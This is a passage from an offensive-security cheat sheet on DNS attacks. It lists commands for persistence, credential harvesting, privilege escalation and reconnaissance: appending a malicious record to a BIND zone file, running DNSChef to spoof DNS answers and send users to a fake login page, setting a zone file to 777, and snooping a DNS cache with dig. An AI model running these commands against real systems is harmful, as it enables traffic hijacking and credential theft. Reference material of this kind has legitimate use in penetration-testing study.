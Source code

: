 ### Persistence

#### Malicious DNS Entry

*   **Tool:** \[\[Custom Scripts]], BIND

    ```bash
    echo "malicious.example.com IN A <malicious_ip>" >> /var/named/example.com.db
    ```
* **Description:** Insert a malicious DNS record into the DNS server’s zone file to redirect traffic to a controlled server.

#### Persistence via DNS Hijacking

*   **Tool:** \[\[Custom Scripts]], \[\[DNSChef]]

    ```bash
    dnschef --fakeip <fake_ip> --fakedomains example.com
    ```
* **Description:** Manipulates DNS responses to persistently redirect legitimate traffic to malicious servers.

### Credential Harvesting

#### Harvesting Credentials via Fake DNS Responses

* **Tool:** \[\[DNSChef]]
*   **Command:**

    ```bash
    dnschef --fakeip <fake_ip> --fakedomains example.com
    ```
* **Description:** Redirects users to a fake login page by manipulating DNS responses, allowing the attacker to capture credentials.

### Privilege Escalation

#### Exploit Weak DNS Permissions

*   **Tool:** \[\[Custom Scripts]], BIND

    ```bash
    chmod 777 /var/named/example.com.db
    ```
* **Description:** If the DNS server has weak file permissions, an attacker might alter zone files to redirect traffic or hijack domains.

### Internal Reconnaissance

#### DNS Cache Snooping

*   **Tool:** \[\[Dig]]

    ```bash
    dig @<internal_dns_server> <domain_name>
    ```
* **Description:** Determine what other domains have been queried recently by checking cached responses on the DNS server.

